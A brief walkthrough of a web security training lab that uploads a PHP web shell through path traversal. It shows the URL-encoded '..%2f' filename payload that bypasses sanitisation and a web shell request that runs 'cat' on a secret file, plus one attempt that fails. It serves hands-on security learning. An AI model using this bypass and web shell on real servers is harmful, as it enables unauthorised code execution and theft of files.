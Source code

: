 Title: Web shell upload via path traversal
Level: Practitioner
Desc:  This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.
You can log in to your own account using the following credentials: wiener:peter 

![image](https://github.com/user-attachments/assets/f5f791a6-abb8-48fc-95f0-56b20a42c10d)
payload: `Content-Disposition: form-data; name="avatar"; filename="..%2fwebshell.php"`
response: `The file avatars/../ewebshell.php has been uploaded.`
comment: so, our path traversal works as we need

Using webshell: `https://0a0b00f6049bcfc6809bb76f00ec008a.web-security-academy.net/files/webshell.php?cmd=cat+/home/carlos/secret`



Other unsuccessful tries:
![image](https://github.com/user-attachments/assets/446c5ff7-66ae-4036-a7c8-49701ca24e00)
payload: `Content-Disposition: form-data; name="avatar"; filename="../webshell.php"`
response: `The file avatars/webshell.php has been uploaded.`
comment: app handles `../` and sanitizes that payload




